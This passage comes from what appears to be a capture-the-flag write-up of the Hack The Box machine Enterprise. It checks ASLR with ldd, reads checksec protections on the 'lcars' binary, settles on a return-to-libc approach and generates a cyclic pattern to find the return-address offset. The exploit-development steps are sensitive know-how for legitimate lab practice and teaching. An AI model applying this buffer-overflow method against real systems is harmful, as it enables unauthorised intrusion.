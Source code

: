 I can verify this with `ldd` on the binary and looking at where libc loads:

```

www-data@enterprise:/$ for i in {1..10}; do ldd /bin/lcars | grep libc; done
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)

```

When ASLR is enabled, the address will change each time.

#### CheckSec

Without ASLR, I will almost certainly go with a return to libc attack, but I can check the binary-specific protections as well with `checksec`:

```

oxdf@parrot$ checksec lcars
[*] '/media/sf_CTFs/hackthebox/enterprise-10.10.10.61/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

PIE means that the address in the main binary will be randomized, so I won’t want to do any ROP or jumping to locations in the main binary, as I can’t predict those (at least without a way to leak an address). NX is disabled, so I could write shellcode onto the stack and then jump into it. But a return to libc is just easier.

### Return Offset

I need to know the exact point in my input that ends up overwriting the return address. To do that, I’ll generate a pattern of characters to pass in as input. This is commonly done with `msf-pattern_create`, but I was playing with [this Python implementation](https://github.com/ickerwx/pattern) for Enterprise:

```

oxdf@parrot$ pattern 
Usage: /usr/local/bin/pattern (create | offset) <value> <buflen>
oxdf@parrot$ pattern create 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A

```
